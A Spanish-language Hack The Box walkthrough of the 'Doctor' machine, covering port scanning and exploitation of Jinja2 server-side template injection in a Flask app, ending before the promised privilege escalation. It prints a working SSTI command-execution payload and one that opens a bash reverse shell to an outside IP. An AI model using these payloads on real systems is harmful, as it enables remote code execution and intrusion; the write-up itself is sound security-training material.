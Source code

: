 ```yaml
---
layout: single
title: Doctor - Hack The Box
excerpt: "Una máquina muy interesante, en la cual nos aprovechamos de una vulnerabilidad llamada *Server Side Template Injection* para la intrusión inicial, y de una mala configuración en splunkd para la escalada de privilegios."
date: 2021-02-07
classes: wide
header:
  teaser: /assets/images/Doctor-Hackthebox/doctor-hackthebox.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Sqli
  - Web Exploiting
  - Privilege Escalation
  - Python
  - Pentesting
---
```



![](/assets/images/Doctor-Hackthebox/doctor-hackthebox.png)

Una máquina muy interesante, en la cual nos aprovechamos de una vulnerabilidad llamada Server Side Template Injection para la intrusión inicial, y de una mala configuración en splunkd para la escalada de privilegios.

## Escaneo de puertos

Empezamos haciendo un escaneo de puertos con nmap. Vemos que están abiertos los puertos 22, 80 y 8089 que corresponden a los servicios SSH, Apache y Splunkd respectívamente.

![](/assets/images/Doctor-Hackthebox/nmap-doctor.png)

Accedo a la página web a través de la ip.

![](/assets/images/Doctor-Hackthebox/doctor-home.png)

VIendo la página principal veo que hay una dirección de email info@doctors.htb, así que añado doctors.htb a mi fichero hosts para que resuelva el dominio y obtengo un panel login.

![](/assets/images/Doctor-Hackthebox/doctor-login.png)

Me registro en la página y veo que se pueden postear mensajes, y además en el código fuente de la página el desarrollador ha dejado un comentario que dice que la página archive está en fase beta.

![](/assets/images/Doctor-Hackthebox/doctor-beta.png)

Viendo la página http://doctors.htb/archive aparece en blanco, pero en el código fuente se ve que recoge como parámetro lo que se ponga en el título del mensaje que se postea.
Con wappalizer veo que la web utiliza el lenguaje python y la tecnología flask.
Busco información acerca de como explotar flask y encuentro lo siguiente:

[https://www.exploit-db.com/exploits/46386](https://www.exploit-db.com/exploits/46386)<br>
[https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)<br>
[https://www.onsecurity.co.uk/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.co.uk/blog/server-side-template-injection-with-jinja2/)<br>

Parece ser que se puede explotar una vulnerabilidad llamada `Server Side Template Injection`.
Éstos links ayudan a entender la vulnerabilidad, y en el último link veo que se pueden ejecutar comandos con ésta inyección:
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
Creo un mensaje que contenga la inyección en el título

![](/assets/images/Doctor-Hackthebox/doctor-inyeccion.png)

Y accedo a la página archive, y en el código fuente aparece lo siguiente:

![](/assets/images/Doctor-Hackthebox/doctor-comandos.png)

Tengo ejecución de comandos!
Cambio el título y pongo lo siguiente para la reverse shell:

```python
{{request.application.__globals__.__builtins__.__import__('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.15.94/4444 0>&1'").read()}}
```
